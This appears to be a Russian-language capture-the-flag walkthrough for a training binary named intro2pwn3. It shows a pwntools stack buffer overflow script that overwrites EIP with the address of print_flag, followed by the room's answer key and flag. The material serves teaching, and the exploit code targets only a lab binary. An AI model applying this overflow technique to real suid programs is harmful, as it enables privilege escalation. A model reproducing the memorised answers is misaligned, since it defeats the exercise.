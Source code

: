 eip = p32(0xdeadbeef)

Теперь весь наш код должен выглядеть так:

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)

Запустите файл с помощью python (не python3!) и выведите данные в текстовый файл (мой файл python называется pwn_cyclic.py, а текстовый файл называется attack).

python pwn_cyclic.py > attack

Запустите этот новый текстовый файл как входной файл для intro2pwn3 в gdb и убедитесь, что вы получаете недопустимый адрес по адресу 0xdeadbeef. Пожалуйста, ответьте на вопрос 6.

Последнее, что нам нужно сделать, это найти местоположение функции print_flag(). Чтобы найти функцию print_flag(), введите эту команду в gdb:

print& print_flag

У меня функция print_flag() находится по адресу  0x8048536, проверьте, соответствует ли она вашему адресу.

Замените 0xdeadbeef в вашем коде на местоположение функции print_flag. Еще раз, мы можем запустить:

python pwn_cyclic.py > attack

Введите файл атаки в двоичный файл intro2pwn3 в командной строке (поскольку gdb не будет использовать разрешения suid), например так:

./intro2pwn3 < attack

Ура, флаг! Пожалуйста, ответьте на вопрос 7.

### Ответьте на вопросы ниже
Какому пользователю принадлежат файлы flag.txt и intro2pwn3?

```commandline
dizmas
```
Используйте checksec на intro2pwn3. Какой защиты на птичью тематику не хватает?
```commandline
canary
```
Какая последовательность букв ASCII соответствует 0x4a4a4a4a (pwndbg должен вам подсказать).
```commandline
JJJJ
```
Каков результат «циклического 12»?
```commandline
aaaabaaacaaa
```
По какому шаблону в шестнадцатеричном формате был переполнен eip?
```commandline
0x6161616a
```
Я переполнил eip с помощью 0xdeadbeef
```commandline
Ответ не нужен
```
Что такое флаг?
```commandline
flag{13@rning_2_pwn!}
```
